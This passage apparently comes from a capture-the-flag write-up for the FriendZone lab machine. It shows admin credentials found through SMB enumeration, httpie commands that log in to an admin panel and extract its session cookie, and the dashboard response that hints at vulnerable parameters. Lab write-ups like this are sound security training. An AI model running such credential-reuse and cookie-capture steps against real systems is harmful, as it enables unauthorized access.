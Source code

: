 #### 4.0. Admin credentials from SMB enum

```
# cat creds.txt
creds for the admin THING:

admin:WORKWORKHhallelujah@#
```
URL: `https://administrator1.friendzone.red/dashboard.php`

#### 4.1. Test login

```
# http --verify=no -f POST https://administrator1.friendzone.red/login.php \
"username=admin" "password=WORKWORKHhallelujah@#" -b
Login Done ! visit /dashboard.php

```

#### 4.2. Cookie fetcher

```
# cookie=`http --verify=no -f POST https://administrator1.friendzone.red/login.php \
 "username=admin" "password=WORKWORKHhallelujah@#" -v \
| grep -oE 'FriendZoneAuth=[a-z0-9]{1,}'`

# http --verify=no https://administrator1.friendzone.red/dashboard.php Cookie:$cookie -b
<title>FriendZone Admin !</title><br><br><br><center><h2>Smart photo script for friendzone corp !</h2></center><center><h3>* Note : we are dealing with a beginner php developer and the application is not tested yet !</h3></center><br><br><center><p>image_name param is missed !</p></center><center><p>please enter it to show the image</p></center><center><p>default is image_id=a.jpg&pagename=timestamp</p></center>
```
